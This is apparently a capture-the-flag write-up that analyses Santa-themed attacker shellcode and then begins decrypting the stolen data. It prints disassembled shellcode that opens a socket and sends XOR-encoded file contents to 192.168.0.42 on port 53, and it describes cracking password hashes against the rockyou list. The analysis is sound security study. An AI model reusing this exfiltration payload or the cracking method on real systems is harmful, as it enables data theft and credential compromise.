   ```
  0x00007fffffffe2e4:  cmp    rcx,0x20
  0x00007fffffffe2e8:  jne    0x7fffffffe2d9
  0x00007fffffffe2ea:  mov    edi,0x2
  0x00007fffffffe2ef:  mov    esi,0x2
  0x00007fffffffe2f4:  xor    rdx,rdx
  0x00007fffffffe2f7:  mov    eax,0x29 # 'socket' syscall
  0x00007fffffffe2fc:  syscall
  0x00007fffffffe2fe:  mov    rdi,rax
  0x00007fffffffe301:  mov    rsi,rsp
  0x00007fffffffe304:  add    rsi,0x3
  0x00007fffffffe308:  mov    edx,0x32
  0x00007fffffffe30d:  mov    r10d,0x0
  0x00007fffffffe313:  push   0x0
  0x00007fffffffe315:  movabs r8,0x2a00a8c035000002
  0x00007fffffffe31f:  push   r8
  0x00007fffffffe321:  mov    r8,rsp
  0x00007fffffffe324:  mov    r9d,0x10
  0x00007fffffffe32a:  mov    eax,0x2c # 'sendto' syscall
  0x00007fffffffe32f:  syscall
  0x00007fffffffe331:  mov    edi,0x0
  0x00007fffffffe336:  mov    eax,0x3c # 'exit' syscall
  0x00007fffffffe33b:  syscall
  ```

In short, read `data/santa_data.txt`, XOR it with `0xdeadbeef`, open socket, send data to `192.168.0.42:53`.

## Step 1: Get Santa's encrypted file

This is simple. XOR the attacker's DNS query with `0xdeadbeef`:
```
00000000: 20e5 afe5 9d31 aca3 ca21 1ec3 79a6 7323   ....1...!..y.s#
00000010: 5eda b6a0 8d2e d3b7 b66b 5585 7ec8 3422  ^........kU.~.4"
00000020: 7a00
==>
e5afe59d31aca3ca211ec379a673235edab6a08d2ed3b7b66b55857ec834227a
efbeaddeefbeaddeefbeaddeefbeaddeefbeaddeefbeaddeefbeaddeefbeadde
--- XOR --------------------------------------------------------
0a114843de120e14cea06ea749cd8e8035080d53c16d1a6884eb28a0278a8fa4
```

Save it as Santa's file (for later manual decryption, not necessary):
```
echo 0a114843de120e14cea06ea749cd8e8035080d53c16d1a6884eb28a0278a8fa4 | xxd -r -p > data/santa_data.txt
```


## Step 2: Get cipher keys (password hashes)

We know Santa is using `rockyou` password list (14,344,394 entries). To get the hashes,
I reused [calc_hash.c](calc_hash.c) function decompiled from the binary.
I added reading the `rockyou.txt` password list and save all the hashes
into binary file `hashes.bin` (not included, 240 MBs).
